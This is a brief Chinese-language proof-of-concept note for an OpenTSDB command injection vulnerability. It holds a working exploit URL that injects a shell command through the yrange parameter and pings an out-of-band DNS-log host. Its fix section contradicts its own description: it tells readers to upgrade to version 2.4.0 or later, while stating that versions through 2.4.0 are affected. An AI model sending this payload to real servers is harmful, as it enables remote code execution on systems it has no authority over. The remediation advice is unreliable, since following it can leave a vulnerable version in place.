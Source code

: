 ### 一 漏洞描述
OpenTSDB是一套开源的、可扩展的分布式时间序列数据库。

OpenTSDB through 2.4.0版本存在命令注入漏洞，该漏洞源于远程代码执行漏洞通过yrange参数中的命令注入，yrange值被写入tmp目录中的gnuplot文件中。然后通过mygnupload .sh shell脚本执行该文件。

### 二 漏洞利用
```
url = f"{scheme}://{target}:{port}/q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=[0:system(%27ping%20-c%201%20{dns_log}%27)]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json"
```

### 三 漏洞修复
升级OpenTSDB版本大于等于2.4.0

> 参考链接  
> http://www.cnnvd.org.cn/web/xxk/ldxqById.tag?CNNVD=CNNVD-202012-1211
